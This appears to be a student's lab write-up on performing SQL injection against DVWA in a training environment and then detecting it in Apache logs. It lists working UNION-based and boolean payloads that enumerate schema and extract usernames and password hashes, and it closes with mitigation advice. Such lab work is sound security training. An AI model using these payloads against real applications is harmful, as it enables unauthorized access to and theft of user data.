






# Assisted Lab: Performing and Detecting SQL Injection (SQLi)

## Overview

In this assisted cybersecurity lab, I performed and analyzed a SQL Injection (SQLi) attack using the Damn Vulnerable Web Application (DVWA) hosted on a LAMP stack. The goal was to simulate a real-world exploitation scenario and then investigate the Indicators of Compromise (IoCs) via server logs.

The lab aligns with the following **CompTIA CySA+ objectives**:

- 1.1: System and network architecture in security ops
- 1.2: Indicators of potentially malicious activity
- 1.3: Tools and techniques to identify malicious activity
- 1.4: Threat intelligence and threat-hunting concepts
- 2.4: Controls to mitigate attacks and vulnerabilities
- 3.2: Incident response activities
- 3.5: Attack methodology frameworks

---

## Environment

- **Attacker VM:** Kali Linux
- **Target VM:** Ubuntu Server (LAMP stack) running DVWA
- **Target URL:** `dvwa.structureality.com`
- **Accessed Via:** Firefox browser

---

## SQLi Attack Walkthrough

### Step 1: Verifying DVWA Access

- Navigated to `http://dvwa.structureality.com` and logged in as `admin` / `password`.
- Ensured security level was set to **Low**.



---

### Step 2: Initial Probing

- Navigated to `SQL Injection` page
- Submitted the following inputs:
  - `1` → Confirmed User ID exists
  - `7` → No user found
  - `'` → Returned SQL syntax error (unfiltered input)



Error message for invalid single quote input

---

### Step 3: Boolean-Based SQLi

```sql
1' or '1'='1
```

- Bypassed the input filter and revealed multiple users



### Step 4: Determine Number of Columns

Tried ORDER BY queries:

```sql
' ORDER BY 1#
' ORDER BY 2#
' ORDER BY 3#
```

- Error returned at ORDER BY 3# → Indicates 2 columns

---

### Step 5: DBMS and Table Discovery

```sql
' UNION SELECT @@version, NULL#
```

- Output: MySQL version 8.0.31

```sql
' UNION SELECT table_schema, table_name FROM information_schema.tables#
```

- Identified dvwa as the active schema



Output with schema and table names listed

### Step 6: Column Enumeration

```sql
' UNION SELECT table_name, column_name FROM information_schema.columns#
```

- Isolated 8 relevant columns from the users table:

  - user_id, user, password, first_name, last_name, avatar, last_login, failed_login

---

### Step 7: Data Extraction

```sql
' UNION SELECT user, password FROM users#
```

- Retrieved usernames and password hashes

```sql
' UNION SELECT CONCAT(user, ' ', avatar), password FROM users#
```

- Combined fields for a clearer view

```sql
' UNION SELECT CONCAT('\n u: ', user, '\n a: ', avatar, '\n fn: ', first_name, '\n ln: ', last_name, '\n ll: ', last_login, '\n fl: ', failed_login, '\n id: ', user_id, '\n hash: ', password), NULL FROM users#
```

- Full user data with structured output


Output of structured user data with full SQL injection

## Log Analysis

### Step 1: Access Apache Logs

Commands:

```bash
cd /var/log/apache2
less access.log
```

- Located HTTP requests showing:
  - UserID 1 and 7
  - SQLi attempt with '
  - Encoded payloads like 1%27%20or%20%271%27%3D%271


Terminal showing access log entries with SQLi patterns

## Key Takeaways:

- Error-based SQLi reveals DBMS and structure
- Union-based SQLi facilitates data extraction
- Log files are critical for identifying attack footprints

## Recommendations

- Sanitize all input fields to block metacharacters like '
- Use parameterized queries (prepared statements)
- Regularly monitor and analyze server logs
- Restrict DBMS error messages in production

## Conclusion

This lab demonstrated a full cycle of a SQL Injection attack:

- Initial discovery
- Exploitation through SQL injection
- Structured data extraction
- Investigation via web server logs
